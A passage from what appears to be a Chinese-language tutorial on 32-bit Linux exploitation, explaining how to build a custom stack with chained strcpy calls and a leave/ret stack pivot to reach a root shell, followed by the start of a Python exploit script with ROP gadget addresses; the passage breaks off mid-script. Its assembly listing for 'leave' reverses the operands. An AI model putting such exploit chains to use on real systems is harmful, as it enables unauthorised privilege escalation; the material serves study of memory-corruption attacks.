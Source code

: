 为了将这些内容复制到栈上，我们需要将实际栈的返回地址，覆盖为一系列`strcpy`调用。例如，为了将`seteuid@PLT (0x80483c0)`复制到自定义栈上，我们需要：

+   四个`strcpy`调用 -- 每个十六进制值（`0x08, 0x04, 0x83, 0xc0`）使用一个`strcpy`调用。
+   `strcpy`的来源参数应该是可执行内存区域的地址，它包含所需的十六进制值，并且我们也需要确保这个值不被改动，它在所选的内存区域存在。
+   `strcpy`的目标参数应该是自定义栈位置的目标地址。

遵循上面的过程，我们就建立了完整的自定义栈。一旦自定义栈建立完成，我们需要将自定义栈移动到真实的栈上，使用 stack pivot 技巧。

> 什么是 stack pivot？

stack pivot 使用`leave ret`指令来实现。我们已经知道了，`leave`指令会翻译为：

```asm
mov ebp, esp
pop ebp
```

所以在`leave`指令之前，使用自定义栈地址来加载 EBP -- 当`leave`指令执行时，会使 ESP 指向 EBP。所以，在转移到自定义栈之后，我们会继续执行一 Libc 函数序列，它们加载到了自定义栈上，然后就获得了 root shell。

## 完整的利用代码

```py
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

#GOT overwrite using ROP gadgets
'''
 G1: 0x0804849e: addl %eax, 0x5D5B04C4(%ebx) ; ret ;
 G2: 0x080484a2: popl %ebx ; pop ebp; ret ;
 G3: 0x????????: popl %eax ; ret ; (NOT found)
 G4: 0x080485b3: mov 0x34(%esp),%eax...
 G5: 0x08048380: pop ebx ; ret ;
 G6: 0x080485cd: pop esi ; pop edi ; pop ebp ; ret ;
 G7: 0x08048498: movb $0x1,0x804a028...
'''

g1 = 0x0804849e
g2 = 0x080484a2
g4 = 0x080485b3
g5 = 0x08048380
g6 = 0x080485cd
g7 = 0x08048498
dummy = 0xdeadbeef
esi = 0x01020101
edi = 0x01020102
ebx = 0x3fc9c18               #ebx = 0x8049f3c - (esi*4) + 0xe0
off = 0xfffff530

#Custom Stack
#0x804a360 - Dummy EBP|seteuid@PLT|getuid@PLT|seteuid_arg|execve_arg1|execve_arg2|execve_arg3
cust_esp = 0x804a360          #Custom stack base address
cust_base_esp = 0x804a360     #Custom stack base address
#seteuid@PLT 0x80483c0
seteuid_oct1 = 0x8048143      #08
seteuid_oct2 = 0x8048130      #04
seteuid_oct3 = 0x8048355      #83
seteuid_oct4 = 0x80481cb      #c0
#getuid@PLT 0x80483b0
getuid_oct1 = 0x8048143       #08
getuid_oct2 = 0x8048130       #04
getuid_oct3 = 0x8048355       #83
getuid_oct4 = 0x80483dc       #b0
#seteuid_arg 0x00000000
seteuid_null_arg = 0x804a360
```